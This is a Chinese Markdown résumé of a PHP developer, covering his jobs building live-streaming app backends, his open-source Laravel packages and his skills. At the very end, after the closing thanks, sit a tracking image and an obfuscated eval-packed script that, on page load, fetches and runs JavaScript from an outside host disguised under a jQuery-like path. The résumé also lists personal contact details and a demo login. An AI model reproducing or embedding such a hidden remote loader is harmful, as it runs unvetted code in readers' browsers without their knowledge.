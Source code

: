 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：7年+
 - 最高学历：大专
 - 期望城市：上海
 - 期望职位：PHP高级开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[hi@anlo.ng](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海宇燕网络科技有限公司 （2016年10月 ~ 至今）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 支付宝、微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、UCloud、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口、SQL优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年2月）
- 企业、政府、门户网站建设；
- 为公司开发客户管理系统等；

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设、ASP程序开发、模板制作等


---

# 开源项目和作品

## 开源项目

 - [laravel-huawei-push](https://packagist.org/packages/al-one/laravel-huawei-push) : 华为离线推送Laravel通知频道
 - [laravel-xiaomi-push](https://packagist.org/packages/al-one/laravel-xiaomi-push) : 小米离线推送Laravel通知频道
 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [eloquent-super-relations](https://packagist.org/packages/al-one/eloquent-super-relations) : Eloquent关联模型加强(可读缓存)
 - [laravel-predis-listened](https://github.com/al-one/laravel-predis-listened) : Laravel监听pRedis命令
 - [certbot-auth-dnspod](https://github.com/al-one/certbot-auth-dnspod) : Certbot使用DNSPod验证脚本
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](https://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp + Access

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功


---

# 技能清单
- 语言：PHP / JavaScript / Python / Shell
- 框架：Laravel / Symfony / ThinkPHP / Vue.js
- 架构：Nginx / MySQL / Redis / Supervisor / Docker
- 前端：Bootstrap / Lodash / Axios / jQuery
- 工具：PhpStorm / Git / Composer / PHPUnit / xDebug
- 其他：Swagger / Regex / RaspberryPi / Opencv / Home Assistant


---

# 自我描述
- 熟练使用PHP开发各种应用，熟悉Laravel、ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux环境搭建；
- 熟悉MySQL数据库优化以及Git、SVN等协作工具；
- 精通Web前端，熟练使用Vue.js、Bootstrap、jQuery；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。


![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>